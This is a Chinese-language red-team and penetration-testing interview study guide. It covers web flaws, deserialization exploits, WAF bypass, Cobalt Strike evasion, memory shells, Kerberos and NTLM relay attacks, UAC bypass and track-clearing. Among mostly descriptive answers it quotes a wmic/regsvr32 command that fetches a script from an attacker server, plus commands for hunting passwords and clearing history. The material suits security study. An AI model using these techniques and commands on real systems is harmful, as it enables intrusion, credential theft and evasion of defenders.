正向Shell：攻击者连接被攻击者机器，可用于攻击者处于内网，被攻击者处于公网的情况。
反向Shell：被攻击者主动连接攻击者，可用于攻击者处于外网，被攻击者处于内网的情况。
正向代理即是客户端代理, 代理客户端, 服务端不知道实际发起请求的客户端.反向代理即是服务端代理, 代理服务端, 客户端不知道实际提供服务的服务端
```


# 攻防实战中有哪些优秀案例

红队：参加xxx第x，xxx第x，xxx第x &#x20;
主要做的是：外网打点，扩大资产，上免杀，横向=》vlan内网、域控组策略gpo。（这里简单给几个关键词）

# 说下蓝队经历

1.反打扫描IP，分析肉鸡，找攻击者的利用工具，配置文件，连接ip &#x20;
2.微步查询得到该IP,找到注册人邮箱,利用邮箱社工 &#x20;
3.蜜罐，通过跟厂家的蜜罐设备捕捉的指纹，来找到社交id &#x20;
4.溯源钓鱼邮件，分析附件木马回连地址，邮件头找到真实发件人，利用邮件信息及id去社工，寻找博客，企业信息，社交信息等 &#x20;
获取id之后，百度，谷歌，src，微博，微信，支付宝，豆瓣，贴吧，知乎，脉脉，钉钉，CSDN，facebook，领英，github等进行查询绘制攻击者画像

# 挖过SRC吗

挖过，很早之前在乌云提交过xx漏洞，在补天,漏洞盒子都有熟人，先知众测，360众测等各种众测获得过xx现金。

# 写过工具吗，熟悉什么语言

python java go ruby...

具体看个人github（别回答没传过github、码云之类的低级借口，low到爆炸）

# xss攻击方式和防护

反射XSS攻击、DOM型XSS攻击、储存型XSS

1）httpOnly 防止读cookie

2）实体化编码输出

# sql注入原理，类型，防护方式

把用户输入的数据当作代码来执行、联合注入 布尔盲注 时间型盲注 报错注入 宽字节注入等

防护方式：

1）设备方式：增加waf,cdn等

2）代码方式：一般推荐用框架，比如mybatis中使用 %获取参数是直接进行拼接  #获取参数是进行预编译

# 渗透测试流程

1\) 确定资产范围

ip、域名、内外网、测试账户,客户的需求，比如需要拿到内网的权限，有些客户不允许进内网 &#x20;

2\) 信息收集

利用搜索引擎开放搜索，各种工具探测子域名、端口、应用、指纹、操作系统、版本、中间件、人员信息、waf等 &#x20;
3）漏洞探测

对目标的端口，web服务进行目录扫描，探测poc、常规的checklist逻辑漏洞测试 &#x20;

4\) 绕waf

绕waf进行漏洞利用( 1 注释替换空格 2 字符集绕过3 chunked绕过4 上传请求 multipart 绕过 5.参数污染 6.垃圾数据污染)

5）内网入侵，横向敏感目标，清理痕迹 &#x20;
6）提权 &#x20;
windows:1.systminfo根据系统补丁提权 2.第三方服务提权 3.数据库提权 &#x20;
linux:1.利用系统内核漏洞进行提权 2.泄漏密码提权 3.sudo提权 4.SUID提权

# app安全测试怎么做

安卓：drozer审计安卓app adb来操作drozer，四大组件 Activity、Service、Broadcast Receiver、Content Provider &#x20;
反编译：如果加固可以尝试用github上的frida-dexdump脱壳 &#x20;
防御机制：信任证书即可，APK的安全机制，自签名证书（Xposed - JustTrustMe，SSLUnPinning），用proxifier代理工具。Hook技术（只需要Hook 证书校验失败的处理方法，让其继续加载页面并保持通讯即可。） &#x20;
客户端内置代理，hook "system.setproperty" 设置代理到本地，客户端检测是否开启代理（修改smail代码绕过，或者nop掉检测方法。）

双向认证绕过：做了双向验证的apk,反编译后在APK的 assets 中就可以找到客户端证书 .p12 和.cer 的文件，导入时会需要一个证书密码，一般可以通过静态分析代码，搜索 KeyStore 或者 逆向分析客户端的.p12 来找到密码。

# iot安全测试怎么做

一般测试wireshack抓包

从硬件体系、软件结构、通信协议来看。

常见漏洞：后门，硬编码、逆向固件（官方下载）

# 如果让你设计开发一款漏扫工具，你会如何设计开发

一般使用框架来开发代码：

前端用Vue &#x20;
后端用SpringBoot

子域名扫描调用oneforall &#x20;
端口服务扫描调用nmap(精准识别)、masscan（快速识别）

判断ip数据库及CDN、waf放弃自动化扫描，仅做URL可用收集 &#x20;
驱动浏览器爬虫采集数据：crawlergo &#x20;
被动漏洞扫描：针对域名进行扫描，直接调用 xray 、awvs、w13scan 等进行漏扫

# 在实际攻防中，蜜罐越来越多，详细聊聊你对蜜罐的认知。

Github上有很多Python版蜜罐Opencanary的二次开发源码。 &#x20;
蜜罐刻画的黑客肖像主要原理是使用众多的jsonp接口来获取攻击者的信息。 &#x20;
最方便的就是直接购买安全厂家的蜜罐，依赖厂家的资源来识别攻击者。

# 应急响应怎么策划，怎么做？

主要遵守应急响应PDCERF模型

Prepare（准备） &#x20;
Detection（检测）：

紧急事件监测：包括防火墙、系统、web服务器、IDS/WAF/SIEM中的日志，不正常或者是执行了越权操作的用户，甚至还有管理员的报告 &#x20;
Containment（抑制）：

首先先控制受害范围，不要让攻击的影响继续蔓延到其他的IT资产和业务环境，切记不要直接一股脑的投入全部精力到封堵后门。紧接着要做的是去寻找根源原因，彻底解决，封堵攻击源，把业务恢复到更张水平 &#x20;
Eradication（根除） &#x20;
Recover（恢复） &#x20;
Follow-Up（跟踪）

主机被入侵 &#x20;
优先提取易消失的数据 &#x20;
内存信息 free -m \`htop &#x20;
系统进程 ps top netstat ss &#x20;
路由信息 tracert &#x20;
ifconfig查看网卡流量，检查网卡的发送、接收数据情况 &#x20;
NetHogs实时监控带宽占用状况 &#x20;
查看Linux系统日志 /var/log &#x20;
ClamAV杀毒软件

# PHP代码审计，你是如何审计的，说说你比较熟悉的函数。

答：

代码审计方式，分3种。

1.全文通读

2.业务功能点

3.工具扫描复验

PHP中：

1）代码执行： &#x20;
eval,preg\_replace+/e,assert,call\_user\_func,call\_user\_func\_array,create\_function &#x20;
2）文件读取： &#x20;
file\_get\_contents(),highlight\_file(),fopen(),read &#x20;
file(),fread(),fgetss(), fgets(),parse\_ini\_file(),show\_source(),file()等 &#x20;
3\)命令执行： &#x20;
system(), exec(), shell\_exec(), passthru() ,pcntl\_exec(), popen(),proc\_open()

问：

# 如何绕过waf？

答：

大小写转换法 &#x20;
干扰字符 /!/ &#x20;
编码 base64 unicode hex url ascll &#x20;
复参数 &#x20;
分块传输

# 探测是否为容器环境

如/.dockerenv是否存在

(1)dockerfile泄漏 &#x20;
dockerfile指定user &#x20;
dockerfile存储了固定密钥对外发布 &#x20;
dockerfile服务攻击面（ssh,telnet） &#x20;
(2)供应链攻击 &#x20;
镜像漏洞、恶意后门、镜像仓库 &#x20;
(3)隔离问题 &#x20;
容器隔离问题，共同挂载的文件系统 &#x20;
(4)容器逃逸 &#x20;
共享操作系统内核，不允许采用特权模式运行

# shiro反序列化

shiro反序列化漏洞原理：shiro550（命令=>序列化=>AES加密=>base64编码=>RememberMe Cookie值）

比较重要的是AES加密的密钥，一般的shiro利用工具就是找到其默认的AES的key,然后反序列化执行我们的恶意payload即可

# Java Runtime为什么要bash编码：

管道符、输入输出重定向，只有在bash环境下才能用

shiro550与shiro721的区别是什么：

加密的方式不同了，721用的是AES-128-CBC加密

# java反序列化利用失败的原因可能有哪些：

（1）没有找到真的gadget（2）经过oracle padding加密后的payload过长导致打不进去

找到了key无法生成内存马：

（1）webshell的版本不对（冰蝎）（2）没有写进去或者被杀了（3）用gsl或者其他shiro得工具

# shiro反序列化绕waf：

（1）rememberme cookie加密（再payload中加入！、@、#）+垃圾数据混淆 (base64加密不同语言环境添加的垃圾字符不一样)

（2）fuzzing请求方法，将get请求fuzzing，未知请求方法绕过

（3）HOST回车、TAB,fuzzing ua头

（4）rememberme cookie做一个loader，恶意的payload放post内容

（5）缩小反序列化的长度（分块传输，代码层优化）

防御方法：（1）升级新版本（2）不使用默认key

# fastjson反序列化

特征：一些json的字符串，直接用payload请求dnslog

fastjson就是将json格式转换为类、字符串等，或者将类、字符串等数据转换成json数据，类似序列化的操作，fastjson版本 <= 1.2.24（jndi注入和JSON.parseObject()函数的反序列化）

# fastjson反序列化漏洞原理：

Fastjson是自己实现的一套序列化和反序列化机制，构造恶意的JSON内容，程序对其进行反序列化后得到恶意类并执行了恶意类中的恶意函数，进而导致代码执行（getter方法/setter方法存在漏洞，payload中@type）

# 如何理解反序列化：

我们是没办法直接转储对象，只能将对象的所有属性一一访问，保存，取出时一一还原，序列化与反序列化就是为了解决这个问题

# rmi和ldap是什么：

rmi相当于是解决java客服端与服务端远程调用对象的一个方法，ldap就是身份认证认证

jndi和jdbc的区别和联系：两者都是API，是连接数据库的标准，jdbc只能用来连接数据库，jndi还可以管理当前应用服务器上的其他资源，如网页，文件等

# fastjson版本号怎么获取：

（1）利用AutoCloseable报错查看response返回包确定版本（2）利用payload去尝试（合适的payload会延时）

# fastjson不出网如何利用

（payload打不成功可能是fastjson版本问题,或者是服务器的java版本比较高）：

（1）利用C3P0构造二次反序列化，C3P0是JDBC的一个连接池组件（hex base以及jndi两个Gadget利用链）

（2）通过将注册恶意类的字节码文件和注册controller的类的字节码文件经过BCEL编码后请求到服务器，但BCEL ClassLoader（类加载器）在Java 8u251以后就没有了，BCEL可以创建、修改Java Class文件的API

（3）TemplatesImpl来加载字节码执行命令,需要开启SupportNonPublicField功能（很苛刻）

（4）common-io写文件

# fastjson绕过waf：

（1）利用unicode/hex编码，2者可混合使用

（2）特殊符号：多个逗号，下滑线，注释，空格，引号不添加（type后的第一个引号,dataSourceName不加），减号，dataSourceName添加is，/b

fastjson dnslog有回显，使用ldap和rmi无回显：

（1）jdk版本问题

（2）如果是恶意的ldap无回显，需要bcel回显或者打内存马，如果恶意的http无回显，反序列化链绕jdk限制

（3）判断是否真的能出网，53dns udp,1099rmi tcp,防火墙大概率会屏蔽这种异常tcp端口,建议用443端口

# cobalt strike相关问题

修改cobalt strike特征

1.修改teamserver连接端口，可通过.properties文件修改，也可以修改teamserver

2.修改证书hash，利用keytools，放置cobaltstrike.store

3.通过c2 malleable自定义http-stager的uri

4.通过cdn上线（利用cloudflare,得注意匹配所有js文件，mime-type头文件得注意，可能无回显）

# 域前置：

作用：通过HTTPS 通用规避技术隐蔽自己的远控

原理：通过向 cdn 的节点 ip 发送包含想要伪造 host 的请求，cdn 便会从记录中查找该 host 对应的源站 ip，并将流量转发至原站 ip

操作：cs设置一个监听器(host改为谷歌和端口号443) -->然后部署gae（谷歌的云平台）代码，参数的内容包括cs的ip或域名 --> 更改我们的cs配置文件    

# BOF：

作用：隐蔽自己

原理：BOF就是Beacon Object File，就是编译后但未链接的目标文件，链接目标文件后就会变成PE文件或其他格式的本机程序，类似于shellcode和loader的感觉，Beacon在接收执行obj前，Cobalt Strike会先对这个obj文件进行一些处理（解析obj文件中的段.text，.data），处理重定位，填充函数指针

# execute-assembly：

作用：无文件落地，内存执行C#文件

# 内存马

Tomcat内存马（有Listener型,Filter型,Servlet型）

Listener型：动态注册恶意的Listener，一般注册request，通过获取StandardContext对象注册恶意listenner

Filter型：通过控制filterMaps、filterConfigs、filterDefs的值，则可以注入恶意的filter（shiro内存马，也可以改造代码移植到冰蝎,gsl）

Servlet型：找到StandardContext,继承并编写一个恶意servlet,并创建一个对象，修改对象的参数，最后将 url 路径和 servlet 类做映射

spring mvc内存马

controller型：使用registerMapping方法来动态注册我们的恶意controller（fastjson内存马）

weblogic内存马

Filter型：加载恶意类，动态注册filter（调用registerFilter进行注册），可改造移植到冰蝎

java agent内存马：java.lang.instrument包提供了检测 java 程序的 Api，比如用于监控、收集性能信息、诊断问题，通过 java.lang.instrument 实现的工具我们称之为 Java Agent ，Java Agent 能够在不影响正常编译的情况下来修改字节码，即动态修改已加载或者未加载的类，包括类的属性、方法，agent内存马动态修改特定类的特定方法，将我们的恶意方法添加进去

# 如何识别内存马：

1.没有在web.xml中配置的filter，或者filterClass为空的Filter,因为此类内存马是通过filter动态注册的

2.特殊classloader加载（比如TemplatesImpl和bcel）

3.把内存中所有的Filter的class dump出来，使用fernflower等反编译工具分析看看，是否存在恶意代码（总的来说有filter，但是没class文件）

# 如何查杀内存马：

1.清除内存马中的Filter的恶意代码

2.模拟中间件注销Filter

# 分享一些实战案例

案列1：

某次HW项目中，改网站使用的是Onethink的模板，有cdn，找到后台目录，爆破没成功，找端口/fuzzing目录，查看js泄露，然后百度发现有sql注入的poc，但是没有利用成功，最后发现有ssrf的漏洞，然后在自己的vps监听，成功获取到站点的真实IP，然后通过真实IP找旁站，找到一个pageadmin的站点，百度漏洞，可通过修改万能cookie进入后台，然后上传，上传绕过，通过ashx绕过成功进入该企业内网，当前是在工作组，内网探测发现一个致远的OA系统，然后发现改OA存在status.jsp泄露，进去可以发现员工的登录日志，收集员工的账号，密码喷射，成功爆破出密码，登录OA后台，获取cookie信息上传压缩文件拿下OA权限，发现该OA双网卡，扫描第二个网段，发现存在ms17010，用msf的exp没有打动，然后用shadowbroker原生py打成功，拿下该权限，发现存在域环境，dump lsass获取账号密码，利用CVE-2021-42287拿下域控权限

案列2：

某次HW项目中，扫描某网站的C段，常规试探非80端口（比如81，88），找到一处登录点，经确定为目标资产，弱口令进入后台，找上传发现没有找到，扫描目录时发现存在OA目录，进去会重定向，url会出现一个字符串，该字符串我们猜测是该后台的名称，然后百度发现某个位置存在注入，发现存在WAF，简单fuzzing后发现拦截规则，空格（内联），逗号被过滤（case when绕过），等号（like），concat（make\_set），from（3e0from）被过滤掉，最终绕过，sqlmap成功利用--os-shell拿下权限，但是发现命令没有回显，写入文件查看就行不通，当时考虑通过dnslog外带，但是执行就卡死，估计是有域名黑名单的策略，最后的解决方案是利用wmic绕过，具体方式是在我们的vps上放置相关xml（xml是执行的命令），在终端执行wmic process call create "regsvr32 /s /n /u /i:[http://192.168.149.133:1337/as.txt](http://192.168.149.133:1337/as.txt "http://192.168.149.133:1337/as.txt") scrobj.dll"，就可以把输出的内容以base64的形式回显在我们的vps上，然后用同样的方式写入webshell，拿下改IIS服务器权限，翻阅相关文件，找到数据库的相关账密（sqlserver），开启xp\_cmdshell拿下，发现环境在域环境下，且我们的sqlserver权限也是域用户，查看注册表发现域控的IP出现过此机器，且我们whoami /priv有相关特权，可以提权为system，且此机器为非约束委派的机器，于是ntlmrelay监听，获取到域管的TGT，利用域管的TGT成功dcsync，拿下域控制器

# 内网kerberos认证，金银票据，bypassuac，dll注入\劫持，ACL

一些基本概念：

TGT：客户机将明文密码进行NTLM哈希,然后和时间戳一起加密(使用krbtgt密码hash作为密钥)，发送给kdc（域控），kdc对用户进行检测，成功之后创建TGT(Ticket-Granting Ticket)

PAC：特权属性证书，PAC包含Client的User的SID、Group的SID，决定给予Client什么样的资源访问权限

SPN：即服务主体名称，是服务实例（比如：HTTP、SMB、MySQL等服务）在使用 Kerberos 身份验证的网络上的唯一标识符，其由服务类、主机名和端口组成

KDC负责管理票据、认证票据、分发票据，但是KDC不是一个独立的服务，它由以下服务组成：

Authentication Service: 为client生成TGT的服务

Ticket Granting Service: 为client生成某个服务的ticket

# Kerberos 认证流程：

1.用户向KDC发起AS\_REQ，请求凭据是用户hash加密的时间戳，KDC使用用户hash进行解密，如果结果正确，返回krbtgt hash加密的TGT票据，TGT里面包含PAC

Kerberos在account database查看我们客服端的账户是否是白名单，是的话将tgt返回给客户端（会查找是否有相同用户名的用户，如果没有该用户名，认证失败）

TGT中包含的内容有kerberos数据库中存在的该客户端的Name，IP，当前时间戳，客户端

2.用户凭借TGT票据向KDC发起针对服务的TGS\_REQ请求，KDC使用krbtgt hash进行解密，如果结果正确，返回用服务hash加密的TGS票据

这一步不管用户有没有访问服务的权限，只要TGT正确，就返回TGS票据，这也是kerberoating能利用的原因，任何一个用户只要hash正确，可以请求域内任何一个服务的TGS票据。

3.用户拿着TGS票据去请求服务，服务使用自己的hash解密TGS票据。如果解密正确，域控解密PAC，获取用户的sid，所在组，再判断用户是否有访问服务的权限，有访问权限就允许用户访问

有些服务并没有验证PAC这一步，这也是白银票据能成功的前提，因为就算拥有用户hash可以制作TGS，也不能制作PAC，PAC当然也验证不成功

# PTH\&PTT\&PTK

PTH原理：在Windows系统中使用NTLM身份认证,NTLM认证使用口令加密后的hash值(hash值由系统API生成),如果攻击者获得了hash,即跳过调用API生成hash的过程

默认打了补丁，其他用户无法pth，但是administrator(sid:500以及本地管理组的域用户)仍可以pth（非RID500账户登录之后是没有过UAC的，所有特权都被移除，可通过注册表解决）

HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy项存在(默认不存在)且配置为1

PTT：PASS THE Ticket（ms14068提权,金银票据）

ms14068提权原理：PAC没有放在TGT中，放在了TGS的数据包中，且KDC无法正确检查 Kerberos 票证请求随附的特权属性证书 PAC 中的有效签名（使用MD5签名（PAC尾部的签名算法可以任意指定））

白银票据：

当我们知道了server的hash，直接伪造TGS，就可以跳过认证的第一步和第二步，直接请求成功

黄金票据：

当我们知道了krbtgt的hash，跳过 AS 验证，就可以伪造第一步的tgt，进而拿到黄金票据

两者的防御方法：

1.及时更新krbtgt用户的密码

2.开启pac认证（检测白银票据，因为就算拥有用户 hash，可以制作 TGS，也不能制作 PAC，PAC 当然也验证不成功）

PTK：PASS THE KEY（密钥传递攻击）

PTK原理：通过获取用户的aes hmac，通过kerberos认证，可在NTLM认证被禁止的情况下用来实现类似pth的功能

Kerberoasting（SPN 服务主体名称发现•请求服务票据•服务票据的导出•服务票据的暴力破解），一般配合找寻特定ACL用户，比如能否写入SPN的用户

# bypass uac

uac的原理：开启uac后，如果用户是标准用户， Windows 会给用户分配一个标准 Access Token 如果用户以管理员权限登陆，会生成两份访问令牌，一份是完整的管理员访问令牌（Full Access Token），一份是标准用户令牌，UAC 绕过的基础，就是子进程从父进程中继承访问令牌，windows操作系统的进程完整性级别一共有4个，分别是Low(低完整性级别)，Medium(中完整性级别)，High(高完整性级别)，System(系统)。在标准模式下，程序一般都运行在Medum级别，等到UAC提升之后，才会提升到High完整性级别。

触发uac的场景：将文件移动或复制到Program Files或Windows目录，查看其他用户文件夹，改变用户的账户类型

绕过uac的方法：

1.shell api白名单绕过，有一些系统程序直接获取管理员权限且不弹出uac的窗口，这些程序拥有autoElevate属性的值为True（利用sigcheck64.exe发掘），随后配合Procmon监听exe修改注册表的动作

2.利用com接口绕过：

（1）elevation属性开启，且开启Auto Approval(需要利用这个特点绕过UAC，OleViewDotNet和IDA来进行查看) 

（2）COM组件中的接口存在可以命令执行的地方(用来执行我们自己的命令，例如ICMLuaUtil的ShellExec)

总的来说就是用OleViewDotNet和IDA来查看com组件是否开启Auto Approval，开启了去看所使用得dll是否可以执行命令

3.提权

# ACL

ACL的作用：一个用户能不能访问安全对象（DACL）以及日志记录功能（SACL）

DACL：（1）有DACL,但是ACE条目的数量为0，是不允许任何用户访问的（2）无DACL，允许任何用户访问的

拥有修改DACL的权限可以做如下操作：

（1）具有dcsync的权限（DS-Replication-Get-Changes/复制目录更改）

（2）在不知道用户密码的情况下修改密码（User-Force-Change-Password）

（3）将任意用户添加到任意组

（4）写入SPN的权限，可用于kerberoating

# dll注入\劫持

dll注入：将我们的shellcode注入某一个进程支持的dll中，修改或拓展程序行为，当然可以使用反射dll注入来过一些静态免杀

dll劫持：a.exe运行需要b.dll，我们将恶意的c.dll放置在比b.dll更优先级执行的位置，也是通常白+黑常用的方式（Process Monitor查看启动dll是否有loadLibaryEx）

# psexec与wmicxec有什么区别

1.用了psexec会产生日志，且无法清除掉，会被发现

2.端口不一样，一个是基于445端口，一个是基于135端口

# 关于域委派攻击

委派概念：接受委派的用户只能是服务账户或者机器用户，委派是指将域内用户的权限委派给服务账号，使得服务账号能以用户权限访问域内的其他服务

非约束委派：当用户访问配置了非约束委派的服务账号，该服务账号会缓存该用户的TGT，一般通过诱使域管用户（MSSQL/IPC/IIS）或者打印机漏洞让域管用户强制回连以缓存 TGT

约束委派：和非约束委派不同，不能获取用户的TGT，且扩展了两个子协议（S4U2Self，S4U2Proxy） ，一般通过获取委派的服务账号的明文密码或者ntlm,伪造S4U请求，进而伪装成服务用户以任意账户的权限申请访问指定服务的ST

基于资源的约束委派：拥有将机器B加入域的域用户的权限（有修改 msDS-AllowedToActOn权限），如果拿到将机器加入域的账号的权限或者Account Operators组的权限，即可获取该账号加入域的所有机器的system权限或除域控外所有机器的system权限

# 关于约束委派的防范措施：

1.高权限的用户，设置不能被委派

2.尽量使用高版本的域控（Windows 2012 R2 及更高的系统），有受保护的用户组，组内用户不允许被委派

3.主机账号需设置委派时，只能设置为约束性委派

# ntlm relay

什么是relay：强制目标服务器、目标用户使用LM Hash、NTLM Hash对攻击者的服务器进行认证，攻击者将该认证中继至其他目标服务器中

常见触发relay的方式：1.printerbug 2.PeitiPotam 3.DFSCoerce 4.shadowcoerce 5.privexchange（cve-2018-8581）

relay2smb以及relay2ldap常见的利用方式：smb(如果拿到域控的请求relay到域控运维的机器，如果没有开启smb签名认证可以relay回域控，或者relay回本身)，ldap（高权限组以及写acl以及基于资源的约束委派）

防御方法：1.非必要不启用 Print Spooler 服务 2.禁用已废弃的NTLM认证 3.启用身份验证扩展保护 (EPA)、SMB 签名

# 什么是relay？

因为ntlm hash有2种，Net-NTLM v1能破解，Net-NTLM v2也能用hashcat破解，不过看运气，如果破解不出来，就需要relay，那什么是relay，相当于web里面的重放，我们可以把域控relay到其他运维的域机器，常见的有relay smb（比如中继监听到域管的ntlm，那么我们可以用域管的ntlm relay到其他域机器从而拿到权限）和relay ldap（约束委派以及acl dcsync以及加入管理组前提是relay的用户是高权限组）

PetitPotam和Printerbug relay都能relay，区别是什么？

Printerbug需要开启spoolss服务，以及两者的smb管道和协议也不一样

# 内网常见的CVE/横向方式

MS17010：永恒冠军，永恒浪漫（shadowbroker）

CVE-2019-1040：relay的是exchange的机器，有写acl的权限，直接可dcsync，如果是普通用户权限（看在哪个组/有无写acl权限），添加基于资源的约束委派，如何绕过Mic，取消设置NTLM\_NEGOTIATE消息中的签名标志

CVE-2020-1472：在Netlogon协议中没有正确使用加密算法而导致的漏洞，使得攻击者在明文(client challenge)、IV等要素可控的情况下，存在较高概率使得产生的密文为全零，poc打完需将域控hash还原

CVE-2021-42287：攻击者用该漏洞创建一个机器用户，再把机器用户的sAMAccountName改成DC的sAMAccountName，然后申请一个tgt票据，最后再把dc的sAMAccountName改回机器用户的sAMAccountName，kdc此时找不到dc的sAMAccountName，就会使用我们创建的机器用户，最终获得域控制器DC的权限

CVE-2022-26923：ADCS漏洞，把添加的这个计算机账户的DNShostname改成和DC一样，在利用certipy通过用证书进行认证的方式，由于之前这个计算机账户的DNS hostname改成和DC一样了，所以就会返回DC的hash值

# 内网横向移动比较关注的东西

Linux:查找相关密码（数据库/运维密码），翻阅开发相关网站（找密码,aksk，gitlab），找其他好打的web服务进一步渗透（weblogic/jboss等）

Windows:当前设备的安全设备有哪些，

当前账户权限（是否为域用户/所处的组/有哪些acl/是否委派/有无ipc空连接/连接过的rdp），

所在的网段（域控在哪儿），

终端的wifi密码，

最近浏览的文件，

注册表（有无其他第三方数据文件），

浏览器密码书签，

相关的web服务（weblogic/vcenter/exchange/ADCS/jenkins/zabbix），

所否存在常见的CVE（ms17010,2020-1472）

# exchange(ssrf+rce)/Vcenter

寻找Exchange：

（1）25:smtp ，443:owa页面，587：加密身份验证

（2）命令查找net group "Exchange Domain Servers" /domain 或者setpan&#x20;

（3）特殊目录,owa/outodiscover/mapi等&#x20;

（4）特俗子域名（mail/owa）

查看Exchange版本：F12查看发行版本号在和官网对比

# Exchange相关的打法

1.使用相关CVE打：

（1）CVE-2019-1040：ntlm relay

（2）CVE-2020-0688：四个值可控（--validationkey默认， --validationalg = SHA1，--generator=B97B4E27（基本默认）--viewstateuserkey = [ASP.NET\_SessionId](http://asp.net_sessionid/ "ASP.NET_SessionId")（手工获取，变量，每次登陆都不一致）），导致的RCE

（3）CVE-2021-26855：通过SSRF漏洞攻击，访问autodiscover.xml泄露LegacyDN信息，在通过LegacyDN，获取SID， 然后通过SID，获取exchange的有效cookie，最后通过cookie对OABVirtualDirectory对象进行恶意操作，写入一句话木马，达到控制目标的效果。

2.OWA/EWS/Microsoft-Server-ActiveSync/autodiscover密码爆破，密码喷射

获取邮箱地址：

（1）常规信息收集，github，语雀等

（2）网站，微匹，hunter，skymem

（3）工具，theHarvester，也可以使用工具验证邮件得准确性

# 寻找Vcenter：

（1）5480端口

# Vcenter相关的打法

1.根据Vcenter版本信息确定存在的漏洞，通过漏洞获取webshell，如果权限为root，伪造cookie或者创建用户操作获取web权限，获取更多机器的权限，如果权限为vsphere-ui，提权到root

2.查看Vcenter版本，sdk/vimServiceVersions.xml

3.使用相关CVE打

（1）CVE-2021-21972 RCE（需要知道真实路径），默认路径C:\ProgramData\VMware\vCenterServer\data\perfcharts\tc-instance\webapps，写不进去可以往子级目录写

（2）CVE-2021-21985 RCE，启用的Virtual SAN Health Check插件缺乏输入验证，可在操作系统上远程执行任意命令

（3）CVE-2021-22005，文件上传

4.配合Log4j，Vcenter的SAML路由，增加XFF，把需要执行的命令跟在XFF后面

# 信息收集

web端的信息收集

（1）常规的资产收集，包括子域名，端口，c段，旁站等，以及微信公众号，qq群，谷歌语法找相关pdf，xlsx查看工号，姓名，公开笔记（语雀等）

（2）邮件搜寻，脉脉在职员工定向钓鱼（vx，手机号，邮箱），公司组织架构，电话，物理地址（打不动可以考虑物理渗透），抖音找员工

（3）服务器的提供商，各类云，各类waf，vpn的设备是什么，现在供应链是新的方向了

（4）一些安全漏洞（比如域传送漏洞nslookup dig查看，内网可以利用host头碰撞，原理是nginx/Apache的反向代理的host配置没删除，是否有.git/.svn/ds\_store文件泄露，还原代码，jsonp泄露）

终端的信息收集

（1）本机信息（杀软进程/是否为虚拟机/docker），系统版本，网段信息（vpn/双网卡），/etc/hosts文件

（2）相关文件/敏感字段 findstr  /s /m "password" *.* 查找，wifi密码，浏览器密码，cookie，书签，powershell/bash终端记录，rdp终端链接记录，密码策略，navacit/xshell等工具密码破解

（3）中间件文件的配置文件（tomcat/nginx/apache）

（4）当前账号权限查看，linux查看是否有空密码用户，特权用户账户

windows域账户

1.查看该域用户登录了哪些域机器（PsLoggedon.exe，远程登录后会在注册表有值，这也是工具实现的原理）

2.当前所在用户所在的组，有哪些acl，是否是委派的账号

3.是否有ipc空连接，是否有SYSVOL组策略gpp文件泄露获取密码

清空渗透痕迹

windows:删除各类日志文件，%SystemRoot%\system32\config，使用工具Phant0m

linux:history -c清空his记录，删除各类日志文件，

# 内网不出网上线方式

0.cs上线Linux机器：使用CrossC2，在交互式的shell里面找一台中转机，用ssh上线

0.1 Cobalt Strike Windows Executable是生成Stager类型的马，而Windows Executable(S) 是生成Stageless类型的马。那Stager和Stageless有啥区别呢

Stager是分阶段传送Payload的木马，Stageless是完整的木马

中转机器能出网

1.如果有中转机器，内网不出网机器上线，可使用SMB Beacon上线，利用ipc上传beacon，上传后用link命令连接上线，也可以使用tcp beacon上线

2.用流量工具代理，在中转机器开启https代理的端口（一般用goproxy，pystinger），再把不出网的内网机器未使用的端口重定向到https代理端口，生成payload执行上线

中转机器不出网

1.中转机器是否只是tcp协议不出网（dns能出网（nslookup dig检测）配置cs监听文件,exe/ps1都能上线，icmp能出网（ping tracert检测），利用pingtunnel）

2.上线自己的攻击机，如果能用abptts进行流量代理，那说明能够通过tcp beacon上线

3.Pystinger来实现内网反向代理

# redis未授权

windows与redis常见拿shell的方法

windows:1.绝对路径写webshell（前提是有web服务）    2.启动项（目录/注册表）    3.dll劫持     

linux：1.写计划任务（var/spool/cron）    2.公私钥（是否存在root/.ssh），将公钥写入    3.绝对路径写webshell（config set写入）

redis主从复制（redis的版本在4-5）：

redis实例作为主机，主机只负责写，从机只负责读。构造恶意.so文件，主机实例通过FULLRESYNC同步文件到从机上。然后在从机上加载恶意so文件，即可执行命令

修复方式：（1）禁止外部访问redis服务端口（2）禁止root权限启动redis服务

# 文件上传

常见绕过方式，白名单用解析漏洞绕过（IIS解析漏洞/ngnix解析漏洞），黑名单绕过方式如下：

（1）垃圾数据/大小写/00截断/分块传输/双写绕过

（2）各类编辑器漏洞（FCK,ewbeditor）

（3）利用二次渲染/NTFS ADS的特性绕过

（4）BurpSuite fuzzing content-Disposition/filename/from-data/Content-Type/boundary(删除，添加空格，回车），fuzzing header头，添加X-Real-IP: 1.1.1.1/X-FORWOARD-FOR

（5）多的后缀名，php php php3 php4  phtml  jsp jspx jspf aspx=ashx

# CSRF与CORS

csrf（跨站请求伪造）

用当前用户的权限去执行当前用户能做的事情，比如后台管理员新增用户，修改密码，当然也能getshell，看你的表单怎么构造以及当前用户的权限是否能够新增修改模板代码或者添加管理员（前提有源码）

防御方法：

（1）增加referer头（2）增加token的验证，以及各种二次验证，比如验证码，二次密码（3）尽量使用post方法（4）同源策略

同源策略（SOP）：协议，https/http，端口，域名(子域名)三者保持一致，如果不一致将会无法请求数据

cors（跨域资源共享）

攻击场景：

（1）查看requests中是否有Origin和response中时候存在ACAO，ACAC，ACAC是否为true

（2）Burp 流量中搜索decrypt，function decrypt，publicKey等关键词的信息，然后解密解密相关cookie

（3）跨域获取相关信息

# CORS漏洞绕过：

（1）Origin校验绕过，前缀匹配，包含匹配，后缀匹配

# cors与jsonp的区别：

（1）cors支持get和post方式的跨域,jsonp只支持get

（2）cors不支持IE10一下的浏览器，jsop支持所有浏览器

# xss bypass:

xss：

常见的绕过方法：

（1）编码绕过（html编码，js进制绕过），常见函数替换（svg onload，sCrIpT，input onfocus）

（2）特殊符号替代：（）号绕过（用反引号\`\`代替括号，编码），引号绕过（用左斜线替换引号），空格绕过（/ \*\*/，用左斜线代替空格，+，%0d，%0a），单引号转义转义符\却不转义，导致单引号

（3）iframe配合data伪协议

（4）注释，闭合（-->还有--!>）

（5）上传带js的图片，带js的pdf

DOM型XSS和反射型XSS的区别：DOM型XSS其实算反射型XSS，但是DOM型XSS不会和后台进行交互，是Web前端安全问题，当攻击者可以控制一些DOM对象且脚本并没有对用户输入内容进行有效的过滤，就会导致DOM型XSS漏洞的存在

# httponly怎么绕过：

